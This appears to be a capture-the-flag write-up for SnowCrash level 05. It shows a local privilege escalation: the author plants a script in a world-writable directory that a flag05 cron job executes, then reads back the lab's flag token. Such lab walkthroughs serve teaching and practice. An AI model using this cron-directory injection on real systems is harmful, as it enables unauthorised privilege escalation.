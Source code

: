 ## LEVEL 05

---

When I log to the level05 I see a message that says : `You have new mail`.

By default the mail directory is `/var/spool/mail`. Inside this directory I found a file.

```shell
$ level05@SnowCrash:~$ cd /var/spool/mail
$ level05@SnowCrash:/var/spool/mail$ ls -l
total 4
-rw-r--r--+ 1 root mail 58 May  7 17:03 level05
$ level05@SnowCrash:/var/spool/mail$ cat level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This file is a cron file to automatically run a command, here the command `sh /usr/sbin/openarenaserver`.

```shell
$ cd /usr/sbin
[...]
-rwxr-x---+ 1 flag05  flag05      94 Mar  5  2016 openarenaserver
[...]
```

I use `getfacl` to get more informations about the permissions.

```shell
$ getfacl openarenaserver
# file: openarenaserver
# owner: flag05
# group: flag05
user::rwx
user:level05:r--
group::r-x
mask::r-x
other::---
```

This file has a special permission to read the file for user `level05`. And It can run `getflag` because the owner is `flag05` but we cannot change the file.

```shell
$ cat openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

This script seems to limit the CPU usage, run every scripts inside `/opt/openarenaserver` and remove them. So if we can create a script to run `getflag` inside `/opt/openarenaserver` this script will give us the flag.

Let's take a look on this directory.

```shell
$ cd /opt
$ ls -l
$ getfacl openarenaserver/
# file: openarenaserver/
# owner: root
# group: root
user::rwx
user:level05:rwx
user:flag05:rwx
group::r-x
mask::rwx
other::r-x
default:user::rwx
default:user:level05:rwx
default:user:flag05:rwx
default:group::r-x
default:mask::rwx
default:other::r-x
$ cd openarenaserver
```

This directory has a special permission for user `level05` to do everything I want. So I will write the script to execute `getflag` and redirect the output inside tmp file.

```shell
$ vim script
#!/bin/bash
/bin/getflag > /tmp/flag
```

Now I wait 2 minutes which is how long cron will take to execute the script.

```shell
$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

---

*Source :*

*https://serverfault.com/questions/227852/what-does-a-mean-at-the-end-of-the-permissions-from-ls-l*

*https://www.unix.com/man-page/linux/1/limit/*

*https://www.ibm.com/docs/en/aix/7.2?topic=m-mail-command*